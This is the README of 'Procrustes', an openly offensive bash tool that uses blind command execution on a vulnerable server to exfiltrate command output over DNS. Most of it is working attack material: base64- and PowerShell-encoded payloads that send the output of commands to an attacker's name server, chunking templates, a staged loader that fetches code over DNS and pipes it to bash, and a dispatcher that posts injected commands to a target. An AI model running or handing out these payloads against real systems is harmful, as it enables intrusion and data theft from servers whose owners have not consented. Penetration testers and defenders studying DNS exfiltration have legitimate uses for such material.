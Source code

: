 # Procrustes

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

Unstaged:
<p align="center">
  <img src="images/op.gif"/>
</p>

Staged:
<p align="center">
  <img src="images/staged.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

Contents of local_bash.sh:
> $@

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

Contents of local_powershell_wsl2.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe ${@:1}

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x ./dispatcher.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=${1}"

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over.
* procroustes_full/staged: same as procroustes_full, but uses a stager to get the command used by procroustes_full to chunk the data

Some of their differences can also be illustrated through the template commands used for bash/powershell:

procroustes_chunked/bash:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/bash:
```bash
((%CMD%);printf '\n%SIGNATURE%')|base64 -w0|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|nl|awk '{printf "%s.%s%s\n",$2,$1,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```
procroustes_full/bash/staged:
```bash
while [[ ${a[*]} != "4 4 4 4" ]];do ((i++));printf %s "$c";IFS=. read -a a < <(dig +short $i.%UNIQUE_DNS_HOST%);c=$(printf "%02x " ${a[*]}|xxd -r -p);done|bash
```

---------------------------------------


|                       | procroustes_chunked                | procroustes_full  |  procroustes_full_staged (experimental)  |
| -------------         |:-------------:               |:-----:         |:-----:         |
| payload size overhead (bash/powershell) [1] | 150\*NLABELS/500\*NLABELS (+CMD_LEN)          | 300/750 (+CMD_LEN)       |   250/❌  |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[2] |   1👌          |                1    |
| speed (bash/powershell)[3]                | ✔/✔                         |  ✔/😔         | ✓/❌|

[1] For the staged version, the command is fetched through DNS, so the listed size is the total payload size

[2] On procroustes_chunked, the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

[3] We can speed up the exfiltration process by having the NS properly responding to the requests received. This is especially usefull in the case of procroustes_full/powershell

### Todos
 - ~~we could achieve constant command length by sending initially a "stager" command, which will then get our full command through DNS responses.~~ (done for bash)
 - Add stagers for sh, powershell
 - procroustes_full/powershell command can use some parallelization:
 ```bash
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%)+(echo "`n%SIGNATURE%"))) -split '(.{1,%CHUNK_SIZE%})'|?{$_}|%{$i+=1;%DNS_TRIGGER% $('{0}{1}{2}' -f ($_ -replace '(.{1,%LABEL_SIZE%})','$1.'),$i,'%UNIQUE_DNS_HOST%')}
```
PRs are welcome

### Credits
* [Collabfiltrator](https://github.com/0xC01DF00D/Collabfiltrator) - idea of chunking the data on the server. It also performs similar functionalities with this script, so check it out.
* [DNSlivery](https://github.com/no0be/DNSlivery) - modified version of DNSlivery is used as DNS server in the staged version